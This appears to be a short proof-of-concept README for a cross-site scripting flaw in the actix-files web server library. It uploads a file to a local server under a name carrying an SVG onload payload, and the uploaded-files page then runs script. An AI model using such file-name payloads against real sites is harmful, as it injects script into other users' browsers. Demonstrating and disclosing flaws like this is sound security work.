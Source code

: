 # actix-files vuln example

### Run

Start server and upload a file
```
$ echo foo >'">foo<svg onload=alert(1)>'
$ curl -F file=@'">foo<svg onload=alert(1)>' http://localhost:3001/
```
Open web browser to localhost:3001/uploaded

### Result

An alert dialog box should appear
